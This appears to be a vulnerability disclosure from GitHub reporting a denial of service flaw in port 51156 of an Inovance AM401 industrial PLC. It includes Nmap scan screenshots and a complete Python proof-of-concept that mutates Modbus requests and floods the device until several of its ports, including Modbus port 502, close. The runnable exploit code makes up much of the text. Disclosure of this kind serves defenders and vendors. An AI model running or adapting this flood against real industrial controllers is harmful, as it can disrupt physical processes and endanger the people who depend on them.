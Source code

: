 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM401 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:![image](https://github.com/user-attachments/assets/755948eb-132c-4702-8a8d-3ca016432eb2)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/168bdc1c-7cf9-4082-92be-94032bd260fe)
You can see that port 51156 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/47569e14-ec7a-4bd9-aa48-4a8e615524bc)

After a while, we scan the port with Nmap and find:
![image](https://github.com/user-attachments/assets/f8bcc779-cc85-4519-ad78-01aa6efbda4b)

Of the **10** ports that were originally open, only **6** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0
